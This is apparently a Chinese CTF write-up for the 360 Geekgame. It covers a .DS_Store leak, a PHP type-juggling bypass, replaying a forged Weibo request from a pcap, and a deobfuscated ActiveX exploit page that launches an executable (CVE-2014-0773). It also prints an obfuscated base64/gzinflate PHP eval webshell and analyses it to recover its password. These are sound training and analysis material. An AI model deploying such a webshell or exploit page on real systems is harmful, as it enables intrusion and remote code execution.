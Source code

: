 ```yaml
---
layout: post
title: 360 Geekgame Writeup
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### WEB1

就一个大苹果的图，Format Analysis后得到一串base64:`ZW1lbS4uLiAvY3RmXzM2MF9mbGFnv`

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/6ehrtsgbfdx.png">

解密后为`emem... /ctf_360_flag`，是一个目录，图为被咬一口的苹果，osx默认下每个目录下都会存在一个.DS_Store文件来保存文件夹的显示属性，请求`/ctf_360_flag/.DS_Store`及得到flag：

	flag: 61cda90b0c742a90458c4ed43b328bcc

#### WEB3
根据图片Format Analysis后得到一大串摩斯密码：

	--. .. ..-. - --.. -- --. .- ;..<..- -.. .-- . .... .--. $.- = "----- .-.-.- .---- " ;$-... = $_--. . - [.----. -... . ----. ] ;.. ..- . ($-.. . -.-. -- = .- ---. .- ---. ){ .. ..-. ( .. ... _.- .- . .-. .- -.-- ($-... )){ . -.-. .. .. --- "-. - -- -.- . -.- - -.-.- - "; . -..- .. - ; }. .- .. ... . .. ..-. (- .-.-- . . ... _-. ..- -- . .-. .. -.-. ($-... )){ $-.-. = (.. -. - )(($.- + $-... ) * .- --- --- -- ); .. ..-. ($-.-. == "-- -.. " & & $-... [.---- ----- ] == ..- . .- . -.. ... . ){ . -. -. .... --- "..-. . -.. .- --. "; }. .-.. ... . { . -.-. .... -- - "-. --- - .- . - .-- -.- .-- "; . -. .- .. - ; } }. .-. . ... . { . - .-. ... . --- "-. -- - -.- . -.-- -.-.-- "; }}. .-. . ... . { . -.-. .... - -- "-. --- -.- . -.-- -. -.-- "; }..--.. >

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/76tyhfg.png">

解密得到一段php代码：

	<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
	?>

这段代码表示GET请求的参数b符合要求的话就能得到flag，首先$b不能为数组，并且还不能为数字，继续往下看，分析写在下面。

	$c = (int)(($a + $b) * 10)
	$c == "8"
	转换为公式：
	int((0.1+$b)*10)==8
	因为要(int)所以$b>0.7 & $b<0.8 = 0.71
	&& $b[10] == false转换为公式：
	判断$b第11位不能为true，
	$b="0.711111111";
	var_dump($b[10] == TRUE);为true
	$b="0.7100000000";
	var_dump($b[10] == TRUE);为false
	或者不构造那么长也就是后面为空的话也为false

往回看，$b既然不能为数字的话那么也没判断是否为字符串，而且在if里判断的是类型转换后赋值给的$c，所以请求`web3?b=0.71a`及得到flag:

	flag: 4e07fbad6ff26d9a3c9f198277866c66

#### NET1
>要求："根据所给的pcap数据包进行分析，伪造地点`360大厦`和`iphone 6 plus`手机，发送任意微博内容"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载到pcap包后筛选下，请求方式为POST并且http内容中包含weibo字样的数据包。

	http.request.method=="POST" && http contains "weibo"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;翻到第7305个数据包为发微博的request包，Follow TCP Stream。

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/tydhfgbxcv.png">

向下翻，poiid为地址

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/65i7rtuydh.png">

c为手机类型

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/8irujtydhfg.png">

content为微博内容

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/4aresgdfxc.png">

ua为User-Agent

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/7uytdhfgx.png">

根据这些字段就可以更改相应的字段为要求：

	ua=iPhone7,1__weibo__5.2.8__iphone__os8.3&c=iphone&poiid=B2094753D56EA0FE419C

然后重放request，获得flag:

	flag：195b8ef7140a6a09aa4e207e20f6304c

#### NET2
>请分析数据包并给出数据包中利用漏洞的CVE编号。（CVE编号即为过关密码，格式：CVE-XXXX-XXXX）

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/8irjtydfg.png">

是一段js混淆，进行其反混淆

	< html >
	< body >
	< object id = "mfHQh" classid = "clsid:5C2A52BD-2250-4F6B-A4D2-D1D00FCD748C">
		< script type = "text/javascript" >
	   mfHQh[CreateProcess]("C:\windows\explorer.exe \\bwvbprt.exe", 0, 1);
	<  / script >
	<  / body >

搜索了下，flag为`CVE-2014-0773`

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/eytdfg.png">

#### Encrypt2
>小明在服务器上发现了一个奇怪的php文件，初步断定为黑客留下的一句话后门，请分析php文件，找出一句话后门的密码。（密码即为Flag）


	<?php
	eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSI
	F5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK
	8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC
	9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJ
	IHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));
	?>

这段代码进行base64+gzinflate加密，var_dump下看看执行结果：

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/67jtydgbfvc.png">

获得了一串base64密文`YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==`，解码得到`assert_options(ASSERT_WARNING, 0);`这个函数设置ASSERT_WARNING为0，即为不回显warning，删掉这段base64加密后的代码执行下。

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/6i7jrtyd.png">

执行后由此看出是一段一句话木马，flag即为POST接受的参数：

	flag：p4n9_z1_zh3n9_j1u_Sh1_J13
